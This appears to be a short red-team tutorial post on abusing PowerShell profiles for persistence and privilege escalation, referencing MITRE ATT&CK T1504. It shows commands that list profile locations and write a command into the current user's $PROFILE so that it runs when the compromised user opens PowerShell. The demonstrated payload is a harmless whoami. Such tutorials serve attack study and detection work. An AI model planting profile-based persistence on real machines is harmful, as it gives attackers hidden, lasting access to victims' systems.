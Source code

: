 ```yaml
---
layout: post
title: "2024-06-18-powershell profile persistence"
date: 2024-06-18
categories: persistence
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /powershell-profile-persistence/
---
```


# Powershell Profile Persistence

It's possible to use powershell profiles for persistence and/or privilege escalation.

## Execution

There are four places you can abuse the powershell profile, depending on the privileges you have:

```csharp
$PROFILE | select *
```

![](<../../.gitbook/assets/image (219).png>)

Let's add the code to a `$profile` variable (that expands to the current user's profile file) that will get executed the next time the compromised user launches a powershell console:

{% code title="attacker@target" %}
```csharp
echo "whoami > c:\temp\whoami.txt" > $PROFILE
cat $PROFILE
```
{% endcode %}

![](<../../.gitbook/assets/image (215).png>)

Once the compromised user launches powershell, our code gets executed:

![](<../../.gitbook/assets/image (218).png>)

{% hint style="warning" %}
If the user is not using profiles, the technique will stick out immediately due to the "loading personal and system profiles..." message at the top.
{% endhint %}

## References

{% embed url="https://attack.mitre.org/techniques/T1504/" %}
@spotheplanet
